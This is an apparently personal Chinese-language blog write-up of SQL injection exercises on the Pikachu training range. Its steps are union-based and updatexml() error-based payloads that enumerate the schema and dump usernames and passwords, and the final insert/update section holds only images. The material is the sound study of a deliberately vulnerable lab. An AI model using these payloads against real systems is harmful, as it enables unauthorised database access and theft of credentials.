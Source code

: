 ```yaml
---
layout:     post
title:      TimeLineSec安全教程（一）————SQL注入
subtitle:   记录做靶机的过程和过程中的积累
date:       2020-02-24
author:     Ultimater
header-img: img/post-bg-20191109.jpg
catalog: true
tags:
    - 网络安全
    - TimeLine Sec
---
```


>**感谢 TimeLine Sec 组织的此次基础教程实验，帮助众多安全人员巩固基础和提升技能，尤其对我这样的入门者，更是一个从理论向实践发展的好的契机！同时，MS08067安全实验室出版的《Web安全攻防——渗透测试实验指南》作为我实验过程中用来随时随地加深理论认知的书籍，内容详实清晰，循序渐进，起到了巨大的作用，特此感谢！**

### 一、前言

SQL注入就是指Web应用程序对用户输入数据的合法性没有判断，前端传入后端的参数是攻击者可控的，并且参数带入数据库查询，攻击者可以通过构造不同的SQL语句来实现对数据库的任意操作。SQL注入按照不同的分类方法可以分为很多种，如报错注入、盲注、Union联合注入等。

本次 TimeLine Sec 的SQL注入实验靶机为 pikachu ，该靶场涉及到很多漏洞种类，感兴趣的可以自行在本地搭建练习，详情见[Pikachu搭建教程](https://mp.weixin.qq.com/s/z87ddIq79BlwSXNt0cMF2w)

### 二、数字型注入

![20200304212847.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/20200304212847.png)

1.页面抓包之后，在参数`id`处输入`1'`判断是否存在注入

![1.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/1.png)

2.根据`1' and 1=1`和`1' and 1=2`的返回信息判断是数字型注入

![20200304214711.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/20200304214711.png)

![2.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/2.png)

3.`order by 3`判断列数

![3.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/3.png)

4.用union联合注入，`id=-1 union select 1,2`判断输出位置（此时union的前一个条件为假）

![4.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/4.png)

5.union注入获取数据库`id=-1 union select database(),2`

![9O@V5@SSFXIVTWL%`LE}@2Y.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/9O%40V5%40SSFXIVTWL%25%60LE%7D%402Y.png)

6.构造语句爆表名
`id=-1 union select (select table_name from information_schema.tables where table_schema='pikachu' limit 3,1),2`

![20200304215417.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/20200304215417.png)

7.构造语句爆列名
`id=-1 union select (select column_name from information_schema.columns where table_schema='pikachu' and table_name='users' limit 1,1),2`

![A400U3PIJ6975{7C53L3Q18.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/A400U3PIJ6975%7B7C53L3Q18.png)

8.获取用户名
`id=-1 union select (select group_concat(username) from pikachu.users),2`

![20200304215626.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/20200304215626.png)

9.获取用户密码`id=-1 union select (select group_concat(password) from pikachu.users),2`

![5.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/5.png)

### 三、字符型注入

1.输入`1'`报错，输入`1'#`页面返回正常，可判断为字符型注入

![6.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/6.png)

![QQ图片20200305113343.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305113343.png)

2.判断列数`1' order by 3#`

![QQ图片20200305113549.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305113549.png)

3.查看union注入返回到页面的位置`-1' union select 1,2#`

![7.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/7.png)

4.爆库名`-1' union select database(),2#`

![QQ图片20200305113621.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305113621.png)

5.爆表名`-1' union select (select group_concat(table_name) from information_schema.tables where table_schema='pikachu'),2#`

![LTIEN1IOOH%PH}3MZS~%XXP.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/LTIEN1IOOH%25PH%7D3MZS%7E%25XXP.png)

6.爆user表中的列名`-1' union select (select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'),2#`

![QQ图片20200305105055.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305105055.png)

7.爆user表的username字段`-1' union select (select group_concat(username) from pikachu.users),2#`

![QQ图片20200305105434.jpg](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305105434.jpg)

8.爆user表中的password字段`-1' union select (select group_concat(password) from pikachu.users),2#`

![QQ图片20200305113649.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305113649.png)

### 四、搜索型注入

>**查看Pikachu的后台源码，发现搜索型注入和字符型注入的差别在于输入参数的闭合方式，字符型为`'name'`,搜索型为`'%name%'`,不过在注入过程中发现其payload构造方式与字符型相同，因为在构造时加入`1'`闭合前面的单引号之后，引号内部的 % 也被闭合掉了，所以不会产生影响。**

1.输入`1'`报错，输入`1'#`返回正常

![D$ZI5R3%C332N9~9.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/D%24ZI5)%7B)R3%25%7DC332N%7D9%7D%7D%7E9.png)

![WSNH81ZS7$76QTW9VMJU.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/WSNH81ZS7%247%7B6QT(W9V(MJU.png)

2.用 order by 判断列数`1' order by 4#`

![HMUGZFQTHL9QA$]H@IZE4C.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/HMUGZ(FQTHL9QA%24%5DH%40IZE4C.png)

3.union看回显`-1' union select 1,2,3#`

![BTF_4TN87CJHCWC71Y65S.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/BTF_4TN87CJHCWC%7B71(Y65S.png)

4.爆库名`-1' union select 1,database(),3#`

![QQ图片20200305124300.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305124300.png)

5.爆表名`-1' union select 1,(select table_name from information_schema.tables where table_schema='pikachu' limit 3,1),3#`

![QQ图片20200305124400.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305124400.png)

6.爆列名`-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'),3#`

![_HS%PDJMGKG8MAKRQ`D4.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/_HS%25PDJM%7DGKG8MAKR%7DQ%60)D4.png)

7.查看username字段`-1' union select 1,(select group_concat(username) from pikachu.users),3#`

![QQ图片20200305124544.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305124544.png)

8.查看password字段`-1' union select 1,(select group_concat(password) from pikachu.users),3#`

![QQ图片20200305124710.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305124710.png)

### 五、xx型注入

>**xx型注入的后台源码显示闭合方式为`('name')`,用union注入方法和之前的字符型注入、搜索型注入原理相通，只是在闭合的地方用`')`进行闭合就可以了。为加深对报错注入的理解，所以此处改用报错注入的方法来做**

1.输入`1')`报错，输入`1')#`返回正常

![ZLYA9ZY4W$PZ8AY$8ML5XE.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/ZLYA9Z)Y4W%24PZ8AY%248ML5XE.png)

![QQ图片20200305125820.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305125820.png)

2.用`updatexml()`函数进行数据库报错:`1') and updatexml(1,concat(0x7e,database(),0x7e),1)#`

![QQ图片20200305125948.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305125948.png)

3.爆表`-1') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='pikachu'),0x7e),1)#`

![QQ图片20200305130122.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305130122.png)

4.爆列名`-1') and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'),0x7e),1)#`

![KXM4JDV@Q7CWL]Q%EEF.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/KXM(4JDV%7D%40Q%7B%7D7CWL%5DQ%25EEF.png)

5.爆字段`-1') and updatexml(1,concat(0x7e,(select group_concat(username) from pikachu.users),0x7e),1)#`

![QQ图片20200305130352.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305130352.png)

### 六、insert/update注入

![khbsvvskdbvlbv](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/khbsvvskdbvlbv)

![sjvdhkad](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/sjvdhkad)








































































